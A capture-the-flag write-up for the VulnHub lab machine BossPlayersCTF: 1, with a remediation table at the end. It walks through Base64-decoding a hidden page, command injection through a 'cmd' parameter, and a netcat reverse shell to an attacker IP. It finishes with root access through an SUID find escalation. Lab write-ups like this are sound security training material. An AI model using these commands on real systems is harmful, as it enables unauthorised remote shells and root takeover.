


# BossPlayersCTF: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.107 |
| **Difficulty** | Easy |
| **OS** | Linux (Debian) |
| **Goal** | root flag |
| **Source** | [HackingArticles](https://www.hackingarticles.in/bossplayersctf-1-vulnhub-walkthrough/) |

## Attack Summary

BossPlayersCTF: 1 is a beginner Linux challenge built around multi-layer Base64 encoding to hide a hidden PHP page, followed by command injection through a `cmd` GET parameter, and privilege escalation via SUID `find`.

## Methodology

1. Host discovery with netdiscover
2. Port scan with nmap — HTTP (80) and SSH (22)
3. Web source and robots.txt enumeration
4. Multi-layer Base64 decoding to find hidden page
5. Command injection via GET parameter
6. Reverse shell via netcat
7. SUID `find` privilege escalation

## Step 1: Reconnaissance

### Host Discovery

```bash
netdiscover -r 192.168.1.0/24
```

Target at **192.168.1.107**.

### Port Scan

```bash
nmap -A 192.168.1.107
```


| Port | Service |
|---|---|
| 22/tcp | OpenSSH |
| 80/tcp | Rocket httpd |

## Step 2: Web Enumeration

### Directory Brute-Force

```bash
dirb http://192.168.1.107/
```

`robots.txt` discovered. Its contents decode to a troll message — rabbit hole.

### View Page Source

Open `http://192.168.1.107/` in a browser and view source. An HTML comment contains a Base64-encoded string.


## Step 3: Multi-Layer Base64 Decoding

Decode the comment string through three rounds of Base64:

```bash
# Round 1
echo "WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK" | base64 -d
# Output: ZDI5eWEybHVaMmx1Y0hKdlozSmxjM011Y0dod0NnPT0K

# Round 2
echo "ZDI5eWEybHVaMmx1Y0hKdlozSmxjM011Y0dod0NnPT0K" | base64 -d
# Output: d29ya2luZ2lucHJvZ3Jlc3MucGhwCg==

# Round 3
echo "d29ya2luZ2lucHJvZ3Jlc3MucGhwCg==" | base64 -d
# Output: workinginprogress.php
```



Hidden page found: `http://192.168.1.107/workinginprogress.php`

This page lists installed software (Debian, Apache2, PHP) and shows two incomplete items: "test the ping command" and "fix privilege escalation" — hinting at both the attack vectors.

## Step 4: Command Injection

Test the `cmd` GET parameter:

```bash
# Confirm injection
curl "http://192.168.1.107/workinginprogress.php?cmd=id"
# Expected output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Command injection confirmed as `www-data`.

## Step 5: Reverse Shell

Set up a listener on the attacker machine:

```bash
nc -lvp 1234
```

Trigger the reverse shell via the injection point:

```
http://192.168.1.107/workinginprogress.php?cmd=nc+-e+/bin/bash+192.168.1.105+1234
```



Stabilize the shell:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

## Step 6: Privilege Escalation — SUID find

Enumerate SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
```

The `find` binary has SUID set. Escalate using GTFOBins technique:

```bash
find . -exec /bin/sh -p \; -quit

# Confirm
id
# uid=33(www-data) gid=33(www-data) euid=0(root)
```

## Step 7: Root Flag

```bash
cd /root
ls
cat root.txt
```

The flag content is Base64-encoded. Decode it:

```bash
cat root.txt | base64 -d
```


## Lessons Learned

- Obfuscating paths with Base64 in HTML comments provides no real security.
- A `cmd` GET parameter that passes input to a system command is a critical RCE vulnerability.
- SUID `find` is a well-known GTFOBins escalation path — never set SUID on standard utilities.

## Remediation

| Vulnerability | Fix |
|---|---|
| Hidden path in HTML comments | Remove development artifacts before deploying to production |
| Command injection via `cmd` parameter | Validate and sanitize all user input; avoid `system()` / `exec()` with user data |
| SUID `find` binary | Remove SUID bit: `chmod u-s /usr/bin/find` |
